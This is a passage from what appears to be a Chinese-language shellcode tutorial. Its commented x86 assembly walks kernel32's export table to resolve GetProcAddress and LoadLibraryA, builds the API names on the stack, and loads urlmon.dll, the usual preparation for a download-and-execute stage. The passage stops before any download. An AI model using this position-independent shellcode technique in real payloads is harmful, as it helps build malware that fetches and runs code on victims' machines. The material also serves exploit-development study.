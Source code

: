 ```asm
 repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
 jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
 inc eax                 ; else Counter ++
 cmp eax, edx            ; Does EAX == Number of Functions?
 jb searchLoop           ;   If EAX != Number of Functions, then restart the loop

found:
; Find the address of GetProcAddress by using the last value of the Counter
 mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
 mov edx, [ebp-0x10]     ; EDX = &AddressTable
 mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
 mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
 add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
 ret

functions:
# Push string "GetProcAddress",0x00 onto the stack
 xor eax, eax            ; clear eax register
 mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
 push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"
 push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
 push 0x41636f72         ; Acor : 41636f72
 push 0x50746547         ; PteG : 50746547
 mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
 call findFunctionAddr   ; After Return EAX will = &GetProcAddress
# EAX = &GetProcAddress
 mov [ebp-0x1C], eax      ; save &GetProcAddress

; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
 xor edx, edx            ; EDX = 0x00000000
 push edx                ; null terminator for LoadLibraryA string
 push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
 push 0x7262694c         ; rbiL : 7262694c
 push 0x64616f4c         ; daoL : 64616f4c
 push esp                ; $hModule    -- push the address of the start of the string onto the stack
 push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
 mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
 call eax                ; Call the GetProcAddress Function.
 mov [ebp-0x20], eax     ; save Address of LoadLibraryA
```

##### 通过LoadLibrary找到Urlmon.dll

```asm
; Call LoadLibraryA(PTR "urlmon") msvcrt
;   push "urlmon",0x00 to the stack and save pointer
 xor eax, eax            ; clear eax
 mov ax, 0x6E6F          ; no : 6E6F
 push eax
 push 0x6D6C7275         ; mlru : 6D6C7275
 push esp                ; push the pointer to the string
 mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
 call ebx                ; call the LoadLibraryA Function to load urlmon.dll
 mov [ebp-0x24], eax     ; save Address of urlmon.dll
```
